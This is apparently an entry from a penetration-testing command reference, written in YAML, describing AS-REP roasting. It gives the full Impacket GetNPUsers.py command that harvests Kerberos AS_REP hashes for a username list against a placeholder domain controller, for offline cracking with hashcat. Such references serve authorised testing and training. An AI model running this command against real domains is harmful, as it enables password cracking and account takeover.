 ```yaml
---
title: |
  Harvest non-preauth AS_REP responses for a given list of usernames
description: |
  Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username List: usernames.txt

  	Output File: hashes.txt

command: |
  python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
items:
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

